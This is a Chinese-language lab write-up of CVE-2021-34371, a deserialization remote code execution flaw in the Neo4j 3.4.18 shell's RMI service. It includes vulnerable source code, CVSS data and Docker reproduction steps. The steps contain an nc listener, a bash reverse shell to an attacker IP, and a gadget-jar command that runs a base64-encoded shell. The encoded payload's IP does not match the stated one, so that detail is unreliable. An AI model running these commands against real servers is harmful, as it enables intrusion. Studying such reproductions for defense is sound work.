



# CVE-2021-34371 CWE-502 Neo4j RCE

## 漏洞背景

- **Neo4j:** 一款功能强大的图数据库。它采用图结构进行数据存储，以节点代表实体，关系表示节点间的关联，且关系可携带属性。Neo4j 擅长处理复杂关系数据，能快速高效地进行深度数据查询与分析，如在社交网络分析中，能轻松找出人与人之间多层关系。其具备高可扩展性，可应对海量数据，同时提供丰富的查询语言 Cypher，方便用户进行复杂数据操作，在金融、电信等行业广泛应用，为各领域数据存储与分析提供有力支持。
- **Neo4j Shell：**  Neo4j 图数据库的一个交互式命令行界面，用于与数据库进行直接的交互和管理。它允许用户通过输入命令来执行 Cypher 查询、管理数据库的配置和设置、以及进行数据导入导出等操作。Neo4j Shell 提供了一个轻量级的方式，让开发者和管理员能够快速地对数据库进行调试、测试和维护。

## 漏洞原理

Neo4j 在 3.4.18 版本中启用了一个旧的 shell 服务，其中包含了一个 RMI 服务。RMI 服务允许远程调用 Java 对象的方法，并将对象传递到远程系统进行处理。攻击者可以利用 `setSessionVariable` 方法传入精心构造的恶意对象，触发反序列化过程，从而执行任意代码。该漏洞的关键在于 Neo4j 依赖的 Rhino 1.7.9 存在已知的可利用 gadget 链，攻击者可以利用这些 gadget 链构造恶意对象。

## 漏洞定位

分析 Neo4j-3.4.18 源码：

在 community/shell/src/main/java/org/neo4j/shell/impl/AbstractClient.java 文件，第 321 行 setSessionVariable 函数的目的是通过 `setSessionVariable` 方法将一个 `Serializable` 对象存储到会话变量中。

在这种情况下，问题出现在 `Serializable` 类型的参数上，尤其是在 RMI 服务的背景下。RMI 服务本质上允许远程方法调用，而 `Serializable` 类型的对象通常涉及对象的序列化和反序列化，而反序列化是潜在的安全风险来源。如果传入的 `value` 参数是恶意构造的 Java 对象，并且该对象在反序列化过程中触发了任意代码执行，就会导致远程代码执行（RCE）。

```java
// AbstractClient.java 文件，第 321 行 
public void setSessionVariable( String key, Serializable value ) throws ShellException
{
    try
    {
        getServer().setSessionVariable( id, key, value );
    }
    catch ( RemoteException e )
    {
        throw ShellException.wrapCause( e );
    }
}
```

## 漏洞修复

使用 Cyber Shell 替代 Neo4j Shell

## 影响范围

Neo4j

- x to 3.4.18

## **环境搭建**

启动 Docker 环境，Neo4j 版本为 3.4.18，开启了 Neo4j Shell 端口 1337，该端口使用 RMI 协议通信

```txt
NIST:NVD   Base Score:9.8 CRITICAL  Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:neo4j:neo4j:3.4.18:*:*:*:community:*:*:*
```



## 漏洞复现

1. 在本机使用 nc 命令监听 8889 端口

   ```bash
   nc -lvp 8889
   ```

2. 构建 payload，将反弹 shell 的攻击机 IP 和端口进行 Base64 编码这里使用 Docker 的回环地址 172.17.0.1

   ```bash
   bash -i >& /dev/tcp/172.17.0.1/8889 0>&1
   ```

   ```bash
   YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzg4ODkgMD4mMQ==
   ```

3. 进入容器命令行，在 EXP 目录下存在已经编译好的 EXP 文件 rhino_gadget.jar，并执行 EXP 文件

   ```bash
   docker exec -it neo4j-3.4.18 bash
   ```

   ```bash
   java -jar /EXP/rhino_gadget.jar rmi://127.0.0.1:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xNTMvODg4OSAwPiYx}|{base64,-d}|{bash,-i}"
   ```

   

4. 在监听端口可以看到成功反弹了 shell，成功执行了 ls 和 whoami 命令

   

## EXP分析

将 EXP 文件集成于基于 Rhino 的 Gadget 中，需要在 java 8 环境下运行，使用 mvn install 命令编译后，在 target 目录下的 rhino_gadget-1.0-SNAPSHOT-fatjar.jar

## 参考链接

https://nvd.nist.gov/vuln/detail/CVE-2021-34371

[CVE-2021-34371 Neo4j Shell Server 反序列化漏洞复现 – Zgao's blog](https://zgao.top/cve-2021-34371-neo4j-shell-server-反序列化漏洞复现/)

[CVE-2021-34371 Neo4j-Shell 漏洞复现 - 凪白Kw - 博客园](https://www.cnblogs.com/Kawakaze777/p/18153842)

[复现cve-2021-34371 | Lyc's Blog](https://lycshub.github.io/2022/06/04/复现cve-2021-34371/)
